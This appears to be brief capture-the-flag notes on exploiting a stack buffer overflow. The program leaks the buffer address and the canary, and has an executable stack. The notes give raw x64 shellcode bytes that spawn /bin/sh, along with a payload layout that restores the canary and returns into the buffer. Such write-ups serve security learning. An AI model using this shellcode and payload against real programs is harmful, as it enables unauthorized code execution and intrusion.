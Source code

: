 **Read source code**
- We can see there the program leak the address of buf, distance between buf and $rbp, also canary
- `read`,`gets` => Buffer overflow
- Stack
```
Buf
canary (rbp-0x8)
rbp
ret (rbp+0x8)
```
- `Checksec` in gdb
```
Arch:     amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX unknown - GNU_STACK missing
PIE:        PIE enabled
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```
- So the idea is that store the shellcode into `buf` and return adress of buff.
---  
***PWNTOOLS***
- shellcode for x64 `\x48\x31\xFF\x57\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x48\x31\xF6\x48\x31\xD2\x48\x89\xE7\x48\x31\xC0\x48\x83\xC0\x3B\x0F\x05`
- leak canary: overflow to rbp-0x8
- payload = shellcode + (offset from buff to canary - len(shellcode)) +canary + b'a'*0x8 + buf
